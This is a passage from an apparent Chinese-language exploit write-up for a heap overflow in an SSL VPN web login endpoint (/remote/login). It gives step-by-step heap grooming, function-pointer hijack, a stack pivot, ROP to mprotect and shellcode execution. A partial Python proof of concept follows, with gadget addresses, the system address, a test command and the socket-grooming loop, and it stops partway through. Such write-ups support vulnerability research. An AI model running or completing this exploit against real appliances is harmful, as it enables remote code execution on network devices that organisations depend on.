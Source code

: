 实际利用思路 （某些步骤不一定需要或者有用）：

1. 创建 60 个 sock 连接，并发送不完整的 http 请求，希望能在服务端分配多个 SSL 结构体
2. 从第 40 个开始间隔释放 10 个 sock 链接，希望在服务端释放几个 SSL 结构体的 Hole.
3. 分配用于溢出的 exp\_sk
4. 再分配 20 个 sock 连接，多分配几个 SSL 结构体
5. 触发溢出，希望修改 SSL 结构体中的函数指针
6. 给其他 socket 发送数据，等待函数指针调用
7. 劫持函数指针后，切换栈到可控数据区，然后 ROP 计算栈地址，调用 mprotect 让栈区有可执行权限
8. jmp esp 跳转到栈上的 shellcode 执行。

执行 shellcode 时的调试器上下文如下：

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/03/attach-26a70c7b279e7dfc3ed841bb0be169904a046384.png)

​​

poc

```c
import socket
import ssl
from pwn import *
import pwn

path = "/remote/login".encode()
content_length = ["2147483647", "666666", "123412"]
content_length = ["666666"]
content_length = ["2147483647"]
content_length = ["115964116992"]

ip = "192.168.213.133"
port = 4443

# rdx --> data
stack_povit = 0x0000000001350680 # push rdx ; pop rsp ; add ebx, ebp ; ret

system_plt = 0x043ECC0

writeable_address = 0x047759F4

cmd = "/bin/busybox id >> /tmp/pwn.log\x00"

def create_ssl_ctx():
    _socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    _socket.connect((ip, port))
    _default_context = ssl._create_unverified_context()
    _socket = _default_context.wrap_socket(_socket)
    return _socket

socks = []

for i in range(60):
    sk = create_ssl_ctx()
    data = b"POST " + path + b" HTTP/1.1\r\nHost: 192.168.232.129\r\nContent-Length: 100\r\nUser-Agent: Mozilla/5.0\r\nContent-Type: text/plain;charset=UTF-8\r\nAccept: */*\r\n\r\na=1"
    sk.sendall(data)
    socks.append(sk)

for i in range(20, 40, 2):
    sk = socks[i]
    sk.close()
    socks[i] = None

CL = "115964116992"
```